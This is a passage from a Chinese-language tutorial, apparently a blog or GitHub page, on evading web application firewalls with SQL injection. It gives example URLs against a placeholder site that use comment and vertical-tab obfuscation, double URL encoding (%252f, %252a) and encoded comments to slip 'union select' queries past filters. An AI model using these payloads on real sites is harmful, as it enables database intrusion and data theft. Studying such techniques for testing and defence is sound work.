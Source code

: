 例：
```sql
过滤： http://www.xxx.com/news/id/1/**/||/**/lpad(first_name,7,1).html
绕过： http://www.xxx.com/news/id/1%0b||%0blpad(first_name,7,1).html
```

--------

**字符编码** <br>

大多WAF将对程序的输入进行解码和过滤，<br>

但是某些WAF仅对输入解码一次，那么双重加密就能绕过某些过滤。<br>

例：
```sql
绕过： http://www.xxx.com/index.php?id=1%252f%252a*/union%252f%252a/select%252f%252a*/1,2,3%252f%252a*/from%252f%252a*/users--
```

简单说明一下，<br>

**`%252f`** 两次URL解码后就 `/` 斜杠 ，<br>

**`%252a`** 两次URL解码后就 `*` 星号 ，<br>

其他的可以自己动手多去尝试。

-------

对于某些过滤了 `NULL` 字符，和 **`'`** 单引号的，<br>

可以使用例如下面的语句进行绕过 <br>

```sql
过滤： http://www.xxx.com/news/?/**/union/**/select?..
绕过： http://www.xxx.com/news/?/%2A%2A/union/%2A%2A/select?
绕过： http://www.xxx.com/news/?%2f**%2funion%2f**%2fselect
```

---------


### <span id = "f1">附1：小结</span>

**`%0D%0A`** 作为换行符

--------

### <span id = "zg">总结</span>

总体来说这篇文章还是不错的，<br>

里面的绕过方法在实战中我们也经常用到，<br>

不过后面依旧有更多更好的方法需要我们去探索，<br>

加油吧，少年！！！<br>

--------


